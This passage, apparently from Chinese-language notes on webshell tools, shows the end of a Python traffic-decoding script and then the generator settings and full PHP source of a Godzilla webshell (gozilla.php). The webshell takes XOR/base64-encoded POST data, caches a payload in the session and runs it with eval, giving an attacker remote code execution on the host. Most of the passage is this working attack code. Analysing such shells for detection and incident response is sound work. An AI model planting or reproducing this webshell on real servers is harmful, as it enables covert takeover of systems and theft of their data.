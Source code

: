 ```python
                print('[Ooooops, We found it!]')  
                print(data_aes_decode)  
                break  
        except:  
            pass
```

### Godzilla 哥斯拉

#### 基础代码

- 生成php的Webshell代码：管理→生成

```
密码：pass				
密钥：key 				# md5：3c6e0b8a9c15224a8228b9a98ca1531d
有效载荷：PhpDynamicPayload
加密器：PHP_XOR_BASE64
```

```php
# gozilla.php

<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';   # key的md5前16位
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

